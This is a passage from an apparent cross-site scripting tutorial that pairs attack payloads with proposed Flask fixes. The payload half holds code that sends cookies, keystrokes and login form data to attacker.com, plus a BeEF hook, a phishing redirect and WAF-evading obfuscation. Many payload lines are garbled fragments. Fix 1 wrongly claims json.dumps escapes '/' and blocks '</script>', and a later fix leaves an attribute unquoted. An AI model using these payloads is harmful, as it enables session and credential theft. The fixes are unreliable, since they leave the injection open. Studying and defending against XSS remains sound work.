├── Political statements
├── Website vandalism
└── Reputational damage

More sophisticated:
</script></iframe>'">
└── Replaces page with attacker's content
    └── Looks like legitimate site
        └── Phishing opportunity! 💀
```

---

### **Variation 7: Redirect Attack**

```HTML
Redirect payload:

</script>

Purpose:
└── Redirects to phishing site

Attack flow:
User searches or clicks link
         ↓
Payload executes
         ↓
Immediately redirected
         ↓
Now on phishing site
         ↓
Enters credentials (thinks it's legitimate)
         ↓
Credentials stolen! 💀

Delayed redirect (more stealthy):
</script>location='https://evil.com',3000)">
└── 3 second delay before redirect
    └── Page appears normal briefly
        └── Less suspicious! ⚠️
```

---

### **Variation 8: BeEF Hook**

```HTML
BeEF framework integration:

</script>

Purpose:
└── Hooks browser into BeEF framework

What BeEF provides:
├── Remote browser control
├── Network scanning from victim's IP
├── Webcam/microphone access (with permission)
├── Social engineering modules
├── Form hijacking
├── Keylogging
├── Browser exploitation
└── Full attack framework! 💣

Post-exploitation:
└── Attacker has GUI control panel
    └── Point-and-click browser exploitation
        └── Professional pentesting capabilities
            └── Full compromise! ⚠️

The hook process:
1. XSS executes
2. Creates new script element
3. Sets src to BeEF hook.js
4. Appends to page
5. hook.js loads and executes
6. Browser phones home to BeEF server
7. Attacker sees hooked browser in dashboard
8. Can execute commands remotely
```

---

### **Variation 9: Form Hijacking**

```HTML
Form hijacking payload:

</script>f.action='https://attacker.com/grab')">

Purpose:
└── Redirects form submissions to attacker

How it works:
Page has login form:
<form action="/login" method="POST">
    <input name="username">
    <input name="password">
    <button>Login</button>
</form>

After XSS:
<form action="https://attacker.com/grab" method="POST">
    <input name="username">
    <input name="password">
    <button>Login</button>
</form>

Impact:
User fills out form normally
         ↓
Clicks submit
         ↓
Credentials sent to attacker
         ↓
AND forwarded to legitimate server (stealthy)
         ↓
User logs in successfully
         ↓
Unaware credentials were stolen! 💀

Advanced version (with forwarding):
</script>{f.addEventListener('submit',e=>{fetch('https://attacker.com/grab',{method:'POST',body:new FormData(f)})})})">
└── Intercepts form submission
    └── Sends copy to attacker
        └── Allows original submission to continue
            └── User doesn't notice! ✓
```

---

### **Variation 10: Obfuscated Payload**

```HTML
Base64 obfuscation:

</script>

Decoded:
atob('YWxlcnQoZG9jdW1lbnQuY29va2llKQ==') = 'alert(document.cookie)'

Purpose:
└── Bypasses signature-based detection
    └── WAF looking for "alert", "cookie", etc.
        └── Encoded version passes through
            └── Still executes! ✓

Hex encoding:

</script>

Result: alert(document.cookie)

Multiple layers:
</script>
└── Hex encodes Base64 encoded alert
    └── Very hard to detect! ✓

Why obfuscation helps:
└── WAF uses regex patterns
    └── Looks for: alert, eval, document.cookie, etc.
        └── Obfuscation breaks patterns
            └── Passes through WAF
                └── Executes in browser! 💥
```

---

### **Variation 11: Multi-Stage Payload**

```js
Stage 1 loads Stage 2:

</script>

payload.js contains:
// Stage 2 - Full attack code
(function() {
    // Cookie stealing
    new Image().src = 'https://attacker.com/steal?c=' + document.cookie;
    
    // Keylogger
    document.onkeypress = e => {
        fetch('https://attacker.com/log?k=' + e.key);
    };
    
    // Form hijacking
    document.querySelectorAll('form').forEach(f => {
        f.addEventListener('submit', e => {
            e.preventDefault();
            fetch('https://attacker.com/grab', {
                method: 'POST',
                body: new FormData(f)
            }).then(() => f.submit());
        });
    });
    
    // BeEF hook
    var beef = document.createElement('script');
    beef.src = 'https://attacker.com/beef/hook.js';
    document.body.appendChild(beef);
})();

Benefits:
✅ Initial payload is small (avoids length limits)
✅ Complex attack code loaded separately
✅ Can be updated without changing XSS payload
✅ More modular and maintainable

Attack flow:
XSS executes
         ↓
Loads external script
         ↓
External script runs full attack
         ↓
Multiple exploits execute
         ↓
Full compromise! 💀
```

---

### **Variation 12: Context-Aware Payload**

```HTML
Detect and exploit multiple contexts:

</script>fetch('https://attacker.com/log?k='+e.key);
} else {
    /* Generic - steal cookie */
    new Image().src='https://attacker.com/steal?c='+document.cookie;
}
">

Purpose:
└── Adapts attack based on page content
    └── Maximizes impact per victim
        └── Intelligent exploitation! 🎯

Benefits:
✅ One payload, multiple attack vectors
✅ Context-appropriate exploitation
✅ Higher success rate
✅ More valuable data stolen
```

---

### **Variation 13: Polyglot Payload**

```HTML
Works in multiple contexts:

</script><script>

Why polyglot:
└── </script> closes any open script
    └──  works in HTML context
        └── <script> opens new script (harmless if alone)
            └── Works in various injection points! ✓

Example injection points:

In JavaScript string:
var x = '</script><script>';
└── Closes script, creates img, opens new script ✓

In HTML attribute:
<div data="</script><script>">
└── Breaks attribute, creates img ✓

In HTML text:
<p></script><script></p>
└── Invalid </script> ignored, img created ✓

Universal exploitation:
└── Don't need to know exact context
    └── Payload adapts
        └── Higher success rate! ✓
```

---

### **Variation 14: Payload Chaining**

```HTML
Multiple payloads in sequence:

</script><svg onload=alert(1)><svg onload=alert(2)><svg onload=alert(3)>

Result:
└── Three alerts in sequence
    └── Demonstrates multiple execution
        └── Could be different attacks! ✓

Practical chaining:
</script>

fetch('https://attacker.com/log?k='+e.key)">


Execution:
1. First img: Steals cookie
2. Second img: Installs keylogger
3. Third img: Loads BeEF
4. All three execute in order
5. Full compromise! 💀

Benefits:
└── Multiple attack vectors simultaneously
    └── Redundancy (if one fails, others work)
        └── Maximum impact! ✓
```

---
---

## 🛡️ **How to Fix (Secure Code)**

---

### **Fix 1: HTML Entity Encoding (Best)**

```python
# ✅ SECURE - Proper HTML encoding for JavaScript context

from flask import Flask, request
import json

app = Flask(__name__)

@app.route('/search')
def search():
    query = request.args.get('search', '')
    
    # Use JSON encoding for JavaScript context
    # This escapes ALL special characters including < > / ' " \
    safe_query = json.dumps(query)
    
    # safe_query is now properly quoted and escaped
    # e.g., "test</script>" becomes "test<\/script>"
    
    return f"""
    <!DOCTYPE html>
    <html>
    <head><title>Search</title></head>
    <body>
        <h1>Search Results</h1>
        <script>
            var searchTerms = {safe_query};
            document.write('');
        </script>
    </body>
    </html>
    """

# How json.dumps() helps:
# Input: </script>
# Output: "<\/script>"
#          ↑↑
#          └┴─ Forward slash is escaped!

# Result in HTML:
# var searchTerms = "<\/script>";

# Browser JavaScript parser:
# searchTerms = "</script>"
# └── Escaped \/ becomes / in string value
#     └── But HTML already parsed, so </script> is just text
#         └── No tags created! ✓

# Why this works:
# └── JSON encoding escapes: <, >, /, ', ", \, and more
#     └── \/ prevents </script> from being seen by HTML parser
#         └── HTML parser sees: <\/script> (not a tag)
#             └── JavaScript parser later unescapes to < in string
#                 └── Safe! ✓

# Benefits:
# ✅ Comprehensive escaping
# ✅ Standard JSON encoding
# ✅ Works for all special characters
# ✅ Maintains JavaScript syntax
```

---

### **Fix 2: JavaScript Unicode Escaping**

```python
# ✅ SECURE - Unicode escape special characters

from flask import Flask, request

app = Flask(__name__)

def js_escape(s):
    """
    Escape string for safe inclusion in JavaScript
    """
    # Escape using Unicode escapes
    return ''.join(
        f'\\u{ord(c):04x}' if c in '<>/\'"\\' else c
        for c in s
    )

@app.route('/search')
def search():
    query = request.args.get('search', '')
    
    # JavaScript-safe escaping
    safe_query = js_escape(query)
    
    return f"""
    <!DOCTYPE html>
    <html>
    <head><title>Search</title></head>
    <body>
        <h1>Search Results</h1>
        <script>
            var searchTerms = '{safe_query}';
            document.write('');
        </script>
    </body>
    </html>
    """

# How Unicode escaping works:
# Input: </script>
# Output: \u003c\u002fscript\u003e\u003cimg src=x onerror=alert(1)\u003e

# Result in HTML:
# var searchTerms = '\u003c\u002fscript\u003e\u003cimg src=x onerror=alert(1)\u003e';

# HTML parser sees:
# var searchTerms = '\u003c\u002fscript\u003e...';
# ↑
# └── Not </script> tag, just Unicode escapes

# JavaScript parser sees:
# \u003c = 
# \u002f = /
# \u003e = >
# Result: searchTerms = "</script>"
# └── String contains literal characters
#     └── But HTML already parsed, no tags created! ✓

# Benefits:
# ✅ HTML parser doesn't see special characters
# ✅ JavaScript parser correctly unescapes
# ✅ String gets correct value
# ✅ No XSS possible!
```

---

### **Fix 3: Content Security Policy (CSP)**

```html
<!-- ✅ SECURE - Strict CSP blocking inline scripts -->

<!-- Server sends CSP header: -->
<!-- Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-RANDOM123' -->

<!DOCTYPE html>
<html>
<head>
    <meta http-equiv="Content-Security-Policy" 
          content="default-src 'self'; script-src 'self' 'nonce-abc123'">
    <title>Search</title>
</head>
<body>
    <h1>Search Results</h1>
    
    <!-- Inline script requires nonce -->
    <script nonce="abc123">
        var searchTerms = 'USER_INPUT';
        document.write('');
    </script>
</body>
</html>

<!-- How CSP helps: -->
<!--
Even if XSS payload injected:
</script>

Result:
<script nonce="abc123">
    var searchTerms = '
</script>

';
</script>

CSP behavior:
├── First <script> has correct nonce → Executes (though invalid JS)
├──  has NO nonce → BLOCKED!
└── Inline event handlers BLOCKED by CSP! ✓

Benefits:
✅ Defense in depth
✅ Blocks inline event handlers
✅ Even if HTML injection succeeds, code won't execute
✅ Industry best practice

Critical requirements:
└── Must NOT include 'unsafe-inline'
    └── Must use nonces or hashes
        └── Nonces should be random per request
            └── Maximum security! ✓

Complete CSP header:
Content-Security-Policy: 
  default-src 'self'; 
  script-src 'self' 'nonce-RANDOM_PER_REQUEST'; 
  object-src 'none'; 
  base-uri 'self';
  frame-ancestors 'none';
-->
```

---

### **Fix 4: Avoid Inline JavaScript Entirely**

```python
# ✅ SECURE - No inline JavaScript

from flask import Flask, request
import json

app = Flask(__name__)

@app.route('/search')
def search():
    query = request.args.get('search', '')
    
    # Store in data attribute, process with external script
    safe_query = json.dumps(query)
    
    return f"""
    <!DOCTYPE html>
    <html>
    <head>
        <title>Search</title>
        <script src="/static/search.js"></script>
    </head>
    <body>
        <h1>Search Results</h1>
        <div id="search-data" data-query={safe_query}></div>
    </body>
    </html>
    """

# External script (search.js):
"""
document.addEventListener('DOMContentLoaded', function() {
    var searchData = document.getElementById('search-data');
    var query = searchData.dataset.query;
    
    // Use query safely
    var img = document.createElement('img');
    img.src = '/tracker.gif?search=' + encodeURIComponent(query);
    document.body.appendChild(img);
});
"""

# Benefits:
# ✅ No inline JavaScript
# ✅ User input in data attribute (auto-escaped by browser)
# ✅ JavaScript loaded from trusted source
# ✅ CSP can enforce script-src 'self'
# ✅ No </script> injection possible

# Why this works:
# └── No <script> tag with user input
#     └── User input in HTML attribute (data-query)
#         └── Browser auto-escapes attributes
#             └── External script reads safely
#                 └── No injection vectors! ✓
```

---

### **Fix 5: Use Template Engine with Context-Aware Auto-Escaping**

```python
# ✅ SECURE - Template engine with JavaScript context escaping

from flask import Flask, request, render_template
from markupsafe import Markup
import json

app = Flask(__name__)

@app.route('/search')
def search():
    query = request.args.get('search', '')
    
    # JSON encode for JavaScript context
    safe_js_query = Markup(json.dumps(query))
    
    return render_template('search.html', search_query=safe_js_query)

# Template: search.html
"""
<!DOCTYPE html>
<html>
<head>
    <title>Search</title>
</head>
<body>
    <h1>Search Results</h1>
    
    <script>
        var searchTerms = {{ search_query }};
        document.write('');
    </script>
    
    <p>You searched for: {{ search_query }}</p>
</body>
</html>
"""

# How it works:
# └── json.dumps() escapes for JavaScript
#     └── Markup() marks as safe for template
#         └── Template outputs without double-escaping
#             └── Correct escaping for both contexts! ✓

# Input: </script>
# After json.dumps(): "<\/script>"
# In JavaScript: searchTerms = "</script>"
# In HTML <p>: &quot;&lt;/script&gt;...&quot; (auto-escaped)

# Benefits:
# ✅ Context-aware escaping
# ✅ JavaScript context: JSON encoded
# ✅ HTML context: HTML encoded
# ✅ Template handles complexity
# ✅ Developer doesn't need to remember
```

---
